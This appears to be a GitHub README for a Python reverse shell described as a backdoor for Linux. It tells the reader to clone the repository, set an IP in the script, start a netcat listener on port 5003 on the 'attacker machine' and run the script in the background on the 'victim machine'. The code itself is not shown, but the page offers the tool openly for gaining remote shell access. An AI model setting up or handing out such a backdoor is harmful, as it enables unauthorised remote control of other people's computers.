 ## ReverseShell | written in python3

- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```
## You will found a file called >> reverseshell.py:

Now you need to change the ip in the script.

After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- On the vivtim machine:
```
python3 reverseshell.py &
```

